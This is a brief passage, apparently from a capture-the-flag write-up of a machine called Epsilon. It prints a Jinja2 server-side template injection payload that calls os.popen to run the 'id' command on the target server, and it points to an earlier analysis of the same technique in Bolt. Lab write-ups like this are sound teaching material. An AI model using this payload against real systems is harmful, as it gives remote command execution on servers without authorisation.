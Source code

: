 I recently went more in depth looking at [SSTI in
Bolt](/htb-bolt.md#ssti) (as well as a Beyond Root
[video](https://www.youtube.com/watch?v=7o1J8vHdlYc) looking at how
various payloads work). For Epsilon, I'll use:



    {{ namespace.__init__.__globals__.os.popen('id').read() }}



It works nicely as well:

[![](/img/image-20220309151753900.png)*Click
for full size
![image*](/img/image-20220309151753900.png)
